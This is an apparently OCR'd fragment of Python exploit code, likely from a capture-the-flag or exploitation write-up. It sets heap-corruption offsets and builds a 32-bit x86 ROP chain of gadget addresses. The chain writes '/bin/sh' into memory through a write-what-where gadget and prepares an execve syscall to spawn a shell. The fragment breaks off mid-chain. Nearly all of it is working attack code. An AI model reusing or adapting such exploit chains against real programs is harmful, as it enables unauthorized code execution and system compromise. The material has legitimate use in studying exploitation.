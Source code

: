     ptr_size = 4
    msg_len = 128
    offset_to_func_ptr = 140
    offset_to_main_rop_chain = 32
    numbuf_padding = 7
    corrupted_chunk_idx = 1
    bin_sh_str_address = p32(0x80ec704)
    garbage_byte = b'\x41'

    main_gadgets = [
        # sets ecx to 0xffffffff 
        p32(0x0805ce0c), 
        # inc ecx, thus nullifying ecx register
        p32(0x080dcbc0), 
        # pop eax ; ret
        p32(0x080bd226), 
        # /bin
        p32(0x6e69622f), 
        # pop edx ; ret
        p32(0x08082cc6),  
        bin_sh_str_address, 
        # write-what-where gadget -> mov dword ptr [edx], eax ; ret
        p32(0x080a3a1d), 
        # pop eax ; ret
        p32(0x080bd226), 
        # /sh\0
        p32(0x0068732f), 
        # pop edx ; ret
        p32(0x08082cc6), 
        # /bin/sh address + 4
        p32(u32(bin_sh_str_address) + 4), 
        # WWW gadget
        p32(0x080a3a1d), 
        # pop eax ; ret
        p32(0x080bd226), 
        # execve syscall number according to x86 ABI
        p32(0xb), 
        # pop edx ; ret
        p32(0x08082cc6), 
        # edx need to be NULL
